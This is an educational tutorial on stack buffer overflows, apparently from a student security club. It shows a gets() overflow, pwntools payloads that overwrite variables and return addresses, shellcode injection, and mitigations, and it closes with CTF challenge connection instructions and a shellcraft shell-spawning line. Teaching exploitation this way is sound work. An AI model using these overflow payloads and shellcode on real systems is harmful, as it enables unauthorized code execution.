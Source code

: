 # Stack Smashing
Today we'll be exploring stack smashing, one of the oldest and most fundamental
techniques of exploitation.

## Unsafe Writes
The premise of this bug is simple: When data is written to memory in C, there
is no concept of a "buffer", let alone the size of a buffer. This means that if
a function is instructed to write past the end of a buffer, it will happily do
so, overwriting any other data that happens to be sitting in the way. For
example, consider the manpage entry for `gets()`:

```
SYNOPSIS
       #include <stdio.h>

       char *gets(char *s);

DESCRIPTION
       Never use this function.

       gets()  reads  a  line from stdin into the buffer pointed to by s until
       either a terminating newline or EOF, which it replaces with a null byte
       ('\0').  No check for buffer overrun is performed (see BUGS below).
```

From the first sentence of the description, the manpage makes it blatantly
obvious how unsafe the function is, for the same reason described above. There
is no check for a buffer overrun. Consider the snippet of code below:

```C
#include <stdio.h>

int main(void) {
    int num = 1443;
    char buf[50];

    gets(buf);

    printf("%d\n", num);

    return 0;
}
```

Below is a diagram of the stack just before the call to `gets()`.

![Stack before gets()](./stack_smashing_example1.png)

If we were to enter a string of length 49 or less (remember the terminating
null byte), we would expect this program to print 1443. But what if we were to
enter 50 or more characters? Since `gets()` doesn't do any bounds checking, we
expect `num` to be overwritten. Lets see this happen in practice. Compile the
program above with `gcc -fno-stack-protector prog.c` and run `python -c 'print
"A"*49' | ./a.out`:

```
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*49' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*50' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$
```

Well, so much for that. Though it may seem like the input was unsuccessful, the
truth is that the size of the buffer is being padded to a multiple of 8 bytes
(a machine word) for better performance. So the "real" size of the buffer is
56 bytes, not 50. Knowing this, lets try again:

```
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*55' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*56' | ./a.out
1280
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$
```

Just as expected, `num` is being overwritten. Below is a diagram of the stack
after the call to `gets()`:

![Stack after gets()](./stack_smashing_example2.png)

Since `num` is stored in little-endian byte order, the least significant bit is
overwritten first, changing the value from `0x00000005A3` to `0x0000000500`.
You can verify in python that these are equal to 1443 and 1280, respectively.
Additionally, you can simply write a ton of 'A' characters to overwrite the
return address, causing the program to crash.

## Targeted writes
Since we can overwrite `num` with arbitrary bytes, we can effectively change it
to be any value we want. The classical way to do this is to use python's
`struct` module. However, we have better tools available to us now. This is how
to write arbitrary bytes in 2017:

```python
#!/usr/bin/python
from pwn import *

your_val_here = 12345
p = process('./a.out')
p.sendline('A' * 56 + p64(your_val_here))
print p.readline()
```
If you want to write negative arguments, you'll have to use something like
`p64(-1, sign="signed", endinanness="little")`.

## Control hijacking
Overwriting variables is fun, but overwriting the return address is of
particular interest, since doing so allows us to control which function is
called next. In the program above, if we substitute `p.sendline('A' * 56 +
p64(your_val_here))` with `p.sendline('A' * 72 + p64(your_address_here))`, the
program will start executing instructions at `your_address_here` after
returning from `main()`. We need only supply the location in memory of the
desired function.

### Symbols
When a program is compiled, the locations of global variables and functions are
named (unless you tell the compiler not to do this). These names are called
*symbols*, and we can view them with a tool called `readelf`. Run `readelf
--symbols a.out | less` to view the symbols of `a.out`. My output from
`readelf --symbols a.out` is below:

```
[truncated]
59: 0000000000601030     0 NOTYPE  GLOBAL DEFAULT   25 __data_start
60: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
61: 0000000000601038     0 OBJECT  GLOBAL HIDDEN    25 __dso_handle
62: 0000000000400620     4 OBJECT  GLOBAL DEFAULT   16 _IO_stdin_used
63: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND gets@@GLIBC_2.2.5
64: 00000000004005a0   101 FUNC    GLOBAL DEFAULT   14 __libc_csu_init
65: 0000000000601048     0 NOTYPE  GLOBAL DEFAULT   26 _end
66: 0000000000400470    42 FUNC    GLOBAL DEFAULT   14 _start
67: 0000000000601040     0 NOTYPE  GLOBAL DEFAULT   26 __bss_start
68: 0000000000400566    57 FUNC    GLOBAL DEFAULT   14 main
69: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND _Jv_RegisterClasses
70: 0000000000601040     0 OBJECT  GLOBAL HIDDEN    25 __TMC_END__
71: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND _ITM_registerTMCloneTable
72: 0000000000400400     0 FUNC    GLOBAL DEFAULT   11 _init
```
From this output, we can see that `main()` is located at `0x400566`. If there
were other functions in the program (like in challenge 3), they would be
included here too, and you could read off their memory locations.

# Shellcode
Shellcoding is the oldest trick in the binary exploitation book. It's
essentially a clever way to handle the fact that overwriting the return
address only allows us to execute functions that are already in the program.
The trick is to write our own instructions to memory *in addition to* the
address to jump to. The attack is best summarized with a diagram. We craft our
input such that the resulting stack has the following form:

![Shellcode Input](./shellcode_diagram.png)

If we overwrite the start of `buf` with our shellcode and the return address
with the address of `buf`, then when the program will begin executing the
shellcode when the function returns. And since the purpose of shellcode is to
spawn a shell, we can then run arbitrary commands on the machine that was
exploited, a disastrous result for a bug as innocent as an incorrect write.

# Mitigation Techniques
Since buffer overflows are so common and so dangerous, many mitigation
techniques have been invented to make them more difficult to exploit. The most
common ones are stack canaries, non-executable stacks, and ASLR.

## Stack Canaries
These are random word-sized values written to the stack between local variables
and the saved frame pointer. Before the function returns, the stack canary is
checked to ensure it still has the same value that it did originally. If not,
an error is thrown.

## Non-Executable Stack
An error is thrown whenever the program attempts to execute instructions from
the stack.

## Address Space Layout Randomization (ASLR)
The segments composing the program's memory are randomized before each run,
making it much more difficult to find the address of functions.

These techniques make stack smashing much more difficult in practice, but they
do not make it impossible. At its core, exploitation requires an attention to
detail greater than even the original authors, not rote memorization of
techniques.

# Challenges
There are 4 challenges, each running at `lox.xvm.mit.edu:800X`, where `X` is
the number of the challenge (starting from 1). You can interact with the
programs from the command line with `netcat` (`echo "input" | nc
lox.xvm.mit.edu 8001`) or `telnet` (`telnet lox.xvm.mit.edu 8001`). From a
python script, you may find the following useful:

* `from pwn import *` - import all the `pwn` modules
* `s = remote('lox.xvm.mit.edu', 8001)` - create a `remote` object
* `remote.sendline()` - send a line of input to the port specified by `remote`
* `remote.readline()` - read a line of input from the port specified by `remote`
* `remote.interactive()` - interact with the port specified by `remote`
directly
* `shellcode = asm(shellcraft.i386.linux.sh())` - save 32-bit shellcode to
`shellcode`

If you try to run the binaries locally, remember to first create a `flag.txt` file with a dummy flag inside.
